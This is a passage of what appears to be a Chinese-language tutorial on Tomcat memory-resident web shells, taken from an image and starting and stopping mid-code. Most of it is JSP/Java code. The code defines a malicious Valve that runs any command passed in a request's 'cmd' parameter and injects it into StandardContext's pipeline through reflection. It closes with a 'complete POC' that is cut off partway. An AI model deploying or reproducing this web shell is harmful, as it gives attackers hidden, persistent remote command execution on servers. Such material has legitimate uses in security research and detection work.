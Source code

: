 ```java
%>
```
#### 4.4.3.2、编写恶意的`valve`类
```java
<%!
    class Shell_Valve extends ValveBase {
 
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
    }
%>
```
#### 4.4.3.3、将恶意`Valve`添加进`StandardPipeline`
```java
<%
    Shell_Valve shell_valve = new Shell_Valve();
    pipeline.addValve(shell_valve);
%>
```
### 4.4.4、完整POC
```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Pipeline" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
 
    Pipeline pipeline = standardContext.getPipeline();
%>
 
<%!
    class Shell_Valve extends ValveBase {
 
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
```